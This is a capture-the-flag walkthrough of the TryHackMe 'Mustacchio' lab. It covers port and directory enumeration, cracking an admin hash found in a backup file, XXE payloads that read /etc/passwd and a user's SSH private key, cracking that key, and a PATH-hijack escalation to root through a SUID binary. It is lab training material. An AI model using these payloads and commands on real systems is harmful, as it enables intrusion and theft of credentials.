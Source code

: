 # 26 - Mustacchio (XML Injection)

Room Link --> [https://tryhackme.com/room/mustacchio](https://tryhackme.com/room/mustacchio)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo nmap -p- -sS -Pn -n -T5 10.10.109.222 -vv

# outputs
PORT     STATE SERVICE        REASON
22/tcp   open  ssh            syn-ack ttl 63
80/tcp   open  http           syn-ack ttl 63
8765/tcp open  ultraseek-http syn-ack ttl 63
```
{% endcode %}

#### Gobuster enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.109.222 -w /usr/share/dirb/wordlists/common.txt -x txt -t 500 2>/dev/null

# output
/custom 
/fonts
/images
```
{% endcode %}

Navigating to http://10.10.109.222/custom and discovered a "users.bak" sqlite db file, then opened and found credentials for "admin" user.

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Or we can use the Sqlite3 cmd binary to view.

{% code overflow="wrap" lineNumbers="true" %}
```bash
┌──(dking㉿dking)-[~/Downloads]
└─$ sqlite3 users.bak                                                                                     
SQLite version 3.43.1 2023-09-11 12:01:27
Enter ".help" for usage hints.
sqlite> .tables
users
sqlite> pragma table_info(users);
0|username|TEXT|1||0
1|password|TEXT|1||0
sqlite> SELECT * from users;
admin|1868e36a6d2b17d4c2745f1659433a54d4bc5f4b
sqlite>
```
{% endcode %}

Crack the hash using john.

{% code overflow="wrap" lineNumbers="true" %}
```bash
# its a sha1 hash.
john passwd --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-sha1
bulldog19        (?)

# got a valid credential
admin : bulldog19
```
{% endcode %}

#### port 8765 enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.109.222:8765 -w /usr/share/dirb/wordlists/common.txt -x txt -t 500 2>/dev/null

# outputs
/assets
/auth
/index.php
```
{% endcode %}

Navigating to `http://10.10.109.222:8765/index.php` was an admin login session.

I tried the admin credentials and was logged in successfully.

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After authentication ,check the source code and see a link in the "\<script>" session.

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Navigating to the path:  `http://10.10.109.222:8765/auth/dontforget.bak` downloaded the  "dontforget.bak" file. And there is also a comment in the page displaying a username: Barry.

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Access

When you click the SUbmit button we get prompted with a "Insert XML Code!" alert, which suggest the page might be vulnerable to XML injection attack.

A resource we can use to structure our payload --> [Hacktricks](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity?source=post\_page-----ee526a543d8a--------------------------------)

#### XML Injection

I Was able to craft my own payload to view the /etc/passwd file usisng the structure of the XML code in the "dontforget.bak" file.

{% code overflow="wrap" lineNumbers="true" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY toreplace SYSTEM "/etc/passwd"> ]>
<comment>
  <name>&toreplace;</name>
  <author>Barry Clad</author>
  <com>D31ng Hack3d</com>
</comment>
```
{% endcode %}

<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And we see 2 users + root, ie; Joe, Barry and Root. Our focus should be on reading the ssh private key for Barry as hinted by the comment in the source code. And i crafted another payload to read it:

{% code overflow="wrap" lineNumbers="true" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY toreplace SYSTEM "/home/barry/.ssh/id_rsa"> ]>
<comment>
  <name>&toreplace;</name>
  <author>Barry Clad</author>
  <com>D31ng Hack3d</com>
</comment>
```
{% endcode %}

<figure><img src=".gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

It will be hard to use in this case, so i viewed the source code instead.

<figure><img src=".gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

First thing is to check if it iss encrypted by converting it to a crackable format for "johnthereaper"

{% code overflow="wrap" lineNumbers="true" %}
```bash
ssh2john id_rsa > id_hash.john
john id_hash.john --wordlist=/usr/share/wordlists/rockyou.txt

# and the password is:
urieljames       (id_rsa)

# login ssh.
ssh barry@10.10.109.222 -i id_rsa
```
{% endcode %}

And we got access :)

### Priv Esc to Joe

#### SUID binaries:

{% code overflow="wrap" lineNumbers="true" %}
```bash
find / -user root -perm /4000 -exec ls -l {} \; 2>/dev/null

# i ssaw a "/home/joe/live_log" binary 
-rwsr-xr-x 1 root root 16832 Jun 12  2021 /home/joe/live_log
```
{% endcode %}

Using the **strings** command, I could see that the binary was using the **tail** command to read the last 10 entries in the _/var/log/nginx/access.log_ file. We could exploit this.

{% code overflow="wrap" lineNumbers="true" %}
```bash
# we get root this way.

barry@mustacchio:~$ echo "/bin/sh" > /tmp/tail
barry@mustacchio:~$ export PATH=/tmp:$PATH 
barry@mustacchio:~$ /home/joe/live_log
# id
uid=0(root) gid=0(root) groups=0(root),1003(barry)
# 
```
{% endcode %}

Done!
